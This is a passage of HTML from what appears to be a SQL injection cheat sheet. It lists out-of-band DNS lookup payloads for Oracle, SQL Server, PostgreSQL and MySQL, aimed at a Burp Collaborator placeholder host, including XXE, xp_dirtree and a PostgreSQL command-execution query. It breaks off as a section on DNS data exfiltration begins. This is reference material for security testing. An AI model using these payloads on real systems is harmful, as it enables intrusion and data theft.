            You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator-client">Burp Collaborator client</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
        </p>
        <table class="is-nonresponsive-table">
            <tbody><tr>
                <th>
                    Oracle
                </th>
                <td>
                    The following technique leverages an XML external entity (<a href="/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br>
                    <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code><br>
                    <br>
                    The following technique works on fully patched Oracle installations, but requires elevated privileges:<br>
                    <code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code>
                </td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td>
                    The following techniques work on Windows only:<br>
                    <code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br>
                    <code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
                </td>
            </tr>
        </tbody></table>
        <h2 id="dns-lookup-with-data-exfiltration">DNS lookup with data exfiltration</h2>
        <p>
            You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator-client">Burp Collaborator client</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
        </p>
        <table class="is-nonresponsive-table">
            <tbody><tr>
                <th>
                    Oracle
                </th>
                <td><code>